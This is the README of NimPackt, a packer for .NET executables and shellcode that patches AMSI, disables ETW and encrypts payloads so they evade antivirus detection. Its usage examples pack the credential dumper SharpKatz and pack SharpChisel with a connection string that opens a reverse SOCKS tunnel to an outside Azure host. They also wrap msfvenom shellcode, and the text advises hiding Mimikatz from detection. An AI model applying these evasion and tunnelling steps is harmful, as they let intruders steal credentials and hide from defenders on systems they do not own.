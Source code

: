 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables and raw shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect or reverse engineer. Currently, it has the following features.

- Patching the Anti-Malware Scan Interface (AMSI)
- Disabling Event Tracing for Windows (ETW)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to remove userland hooks (until Project5 is supported) or even launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim strenc nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim strenc nimcrypto
pip3 install pycryptodome argparse
```

## Usage

```
usage: NimPackt.py [-h] -i INPUTFILE [-a [ARGUMENTS]] [-e EXECUTIONMODE] [-32] [-H] [-na] [-ne] [-v] [-V]

required arguments:
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

optional arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)        
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" (default), "shinject", "shinject-remote" (TODO)
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```
# Pack SharpKatz to accept commands at runtime, patch AMSI and disable ETW while printing verbose messages on runtime
python3 ./NimPackt.py -v -i bins/SharpKatz-x64.exe

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -H -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to execute in the local thread, hiding the Nim binary window
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -H
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed assembly when `execute-assembly` mode is used. This probably relates to C# compiling options, need to investigate this further.

## Wishlist

- Provide option to deploy `Project5` to unhook API calls before execution
- Provide option to pack as dll library
- A CobaltStrike plugin 🤗